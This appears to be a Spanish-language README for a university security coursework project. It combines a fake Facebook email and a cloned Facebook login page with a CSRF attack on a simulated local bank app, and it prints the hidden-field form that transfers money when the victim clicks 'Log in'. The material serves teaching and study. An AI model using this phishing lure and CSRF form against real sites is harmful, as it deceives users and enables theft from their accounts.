 # CSRF-phising
Parte practica del trabajo tutelado SSI. 

Consiste en enviar un formulario por correo electrónico haciéndose pasar por un correo enviado por facebook. Al hacer click en alguno de los botones del contenido del correo, redirige a una página que es un clon de la página de inicio de sesión de Facebook. El usuario pensará que debe loggearse para ver sus notificaciones, al hacer click en el botón de Iniciar sesión, se realiza un ataque CSRF a un sitio web ,en este caso será un sistema bancario simulado. 

El ataque consiste en enviar al sitio web vulnerable el siguiente formulario: 

  ```
  # facebook_mask.php: 
  
  <form action="process_vulnerable.php?action=transfer" method="POST">
  <!-- Se considera que existe un usuario en la base de datos llamado usuario-->
  <input type="hidden" name="destinatary" value="usuario">
  <input type="hidden" name="quantity" value="1000">
  <td><div id="button"><input type="submit" value="Log in" id="button"></div></td>
  
  </form>
  ```

  Donde value="usuario" es el usuario al que se le transfiere dinero
  y value="1000" es la cantidad de dinero que se transfiere. 
  Por el momento todo se hace en un servidor local, la accion del formulario sería:  http://127.0.0.1/csrf/process_vulnerable.php


  

# Descripcion de archivos

* ``` login_vulnerable.php ``` :
Es una sitio web que simula una aplicación de intercambio de dinero. 
Al iniciar sesión, permite ver la cantidad de dinero que tiene el usuario, además que permite enviar dinero a otro usuario. 

* ``` process_vulnerable.php ``` :
Permite procesar la información que genera ``` login_vulnerable.php ```

* ``` facebook_mask.php ``` :
Es un clon de la página de inicio de sesión de Facebook.

* ``` fake_facebook.html ``` :
Es una plantilla para el contenido HTML de un correo electrónico.

# Screenshot

Contenido de correo electrónico: 
![alt text](fake_facebook.png)

Clon de facebook:
![alt text](facebook_clone.png)


